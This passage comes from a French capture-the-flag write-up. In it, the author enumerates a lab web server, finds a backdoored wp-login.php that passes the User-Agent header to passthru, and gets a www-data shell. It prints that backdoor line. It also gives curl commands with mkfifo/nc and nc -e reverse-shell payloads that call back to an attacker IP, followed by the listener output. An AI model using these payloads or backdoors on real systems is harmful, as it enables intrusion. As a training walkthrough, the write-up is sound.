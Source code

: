 Size does matter
----------------

Avec un coup de pouce de *tejmal* (un autre participant) je me suis tourné vers une wordlist plus grosse pour l'énumération.  

En l’occurrence j'ai utilise le fichier suivant que l'on peut trouver sur Kali Linux :  

```plain
/usr/share/golismero/wordlist/fuzzdb/Discovery/PredictableRes/raft-large-files.txt
```

On découvre alors un fichier *notes.txt* dans la racine web avec le contenu suivant :  

```plain
/!\ Urgent :Our infrastructure got hacked by some hackers . Everyone must change credentials and please dont download zipped files because  they may be backdoored !
```

On enchaîne avec une énumération sur les fichiers zip et sans surprise on trouve un *wordpress.zip*. La décompression ne révèle pas de fichiers anormaux par rapport à une installation Wordpress standard.  

J'ai donc utilisé l'un des outils les plus avancés au monde, à savoir grep :p  

```plain
$ grep -r --include "*.php" passthru blog/
blog/wp-login.php:passthru($_SERVER['HTTP_USER_AGENT']);  // BOOM backdoor from the Heaven ^^
```

On voit ici qu'une backdoor tente d'exécuter ce qui est reçu comme User-Agent dans les entêtes HTTP.  

La machine a été un peu récalcitrante à me donner un shell, Wget passait mais l'exécution de la backdoor non, bizarre mais peu importe j'ai utilisé un reverse shell liste [chez Pentest Monkey](https://web.archive.org/web/20190215143410/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).  

```bash
curl -A "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.254.0.29 9999 >/tmp/f" http://10.1.1.38/blog/wp-login.php
```

En réalité la version de *netcat* présente ne dispose pas de l'option -e mais c'était possible de régler le problème avec le binaire *nc.traditional* lui aussi présent :  

```bash
curl -A "nc.traditional -e /bin/bash 10.254.0.29 9999" http://10.1.1.38/blog/wp-login.php
```

On obtient un shell en tant que *www-data* :  

```plain
$ ncat -l -p 9999 -v
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 10.1.1.38.
Ncat: Connection from 10.1.1.38:33406.
/bin/sh: 0: can't access tty; job control turned off
$ python -c "import pty;pty.spawn('/bin/bash')"
www-data@contra:/var/www/html/blog$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
